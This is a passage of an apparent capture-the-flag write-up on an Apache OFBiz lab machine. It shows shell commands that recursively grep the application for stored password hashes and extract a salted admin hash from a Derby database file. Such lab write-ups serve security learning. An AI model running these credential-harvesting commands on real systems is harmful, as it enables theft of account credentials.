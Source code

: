 ```bash
ofbiz@bizness:/opt/ofbiz$ cat framework/resources/templates/AdminUserLoginData.xml
...
<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
```

Run a command which grep all instance of `currentPassword=` and then filter away any instance of the value `47ca69ebb4bdc9ae0adec130880165d2cc05db1a`.

```bash
ofbiz@bizness:/opt/ofbiz$ grep -arl 'currentPassword=' . | xargs grep -lav '47ca69ebb4bdc9ae0adec130880165d2cc05db1a'
./applications/datamodel/data/demo/WorkEffortDemoData.xml
./applications/datamodel/data/demo/HumanresDemoData.xml
./applications/datamodel/data/demo/MarketingDemoData.xml
./applications/datamodel/data/demo/PartyDemoData.xml
./applications/datamodel/data/demo/ProductDemoData.xml
./applications/datamodel/data/demo/OrderDemoData.xml
./applications/datamodel/data/demo/ContentDemoData.xml
./applications/datamodel/data/demo/AccountingDemoData.xml
./runtime/data/derby/ofbiz/seg0/c54d0.dat
./framework/resources/templates/AdminUserLoginData.xml
./framework/security/data/PasswordSecurityDemoData.xml
./build/distributions/ofbiz.tar
./docker/docker-entrypoint.sh
./plugins/example/testdef/assertdata/TestUserLoginData.xml
./plugins/ebaystore/data/DemoEbayStoreData.xml
./plugins/ecommerce/data/DemoPurchasing.xml
./plugins/webpos/data/DemoRetail.xml
./plugins/scrum/data/scrumDemoData.xml
./plugins/myportal/data/MyPortalDemoData.xml
./plugins/projectmgr/data/ProjectMgrDemoPasswordData.xml
```

>   The command searches recursively through the current directory and its subdirectories for files containing the string `'currentPassword='`.
>
>   It then lists the filenames that contain `'currentPassword='` and **do not** contain `'47ca69ebb4bdc9ae0adec130880165d2cc05db1a'`.

There seems to be an interesting file named `c54d0.dat` and there is a salted hash in this file.

```bash
ofbiz@bizness:/opt/ofbiz$ grep -ia 'currentPassword=' ./runtime/data/derby/ofbiz/seg0/c54d0.dat
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

